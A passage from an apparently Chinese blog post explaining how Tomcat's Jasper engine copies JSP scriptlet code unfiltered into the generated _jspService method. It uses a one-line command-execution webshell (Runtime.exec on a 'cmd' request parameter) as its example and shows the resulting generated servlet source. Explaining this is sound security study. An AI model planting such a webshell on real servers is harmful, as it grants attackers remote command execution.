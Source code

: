 可以看到n.getText()被直接out.printMultiLn到了文件中。没有进行任何过滤的直接拼接到了文件里。

以一个Webshell为例：

```java
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

最后生成的文件如下，被\<% %\>包裹的代码直接被打印到了_jspService函数中：

```java
/*
 * Generated by the Jasper component of Apache Tomcat
 * Version: Apache Tomcat/9.0.85
 * Generated at: 2024-06-05 09:28:16 UTC
 * Note: The last modified time of this file was set to
 *       the last modified time of the source file after
 *       generation to assist with modification tracking.
 */
package org.apache.jsp;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.jsp.*;

public final class _1_jsp extends org.apache.jasper.runtime.HttpJspBase
    implements org.apache.jasper.runtime.JspSourceDependent,
                 org.apache.jasper.runtime.JspSourceImports {
    ...

    public void _jspService(final javax.servlet.http.HttpServletRequest request, final javax.servlet.http.HttpServletResponse response)
        throws java.io.IOException, javax.servlet.ServletException {
    ...
        try {
    ...

        Runtime.getRuntime().exec(request.getParameter("cmd"));

        } catch (java.lang.Throwable t) {
        if (!(t instanceof javax.servlet.jsp.SkipPageException)){
            out = _jspx_out;
            if (out != null && out.getBufferSize() != 0)
            try {
                if (response.isCommitted()) {
                    out.flush();
                } else {
                    out.clearBuffer();
                }
            } catch (java.io.IOException e) {}
            if (_jspx_page_context != null) _jspx_page_context.handlePageException(t);
            else throw new ServletException(t);
        }
        } finally {
        _jspxFactory.releasePageContext(_jspx_page_context);
        }
    }
}
```
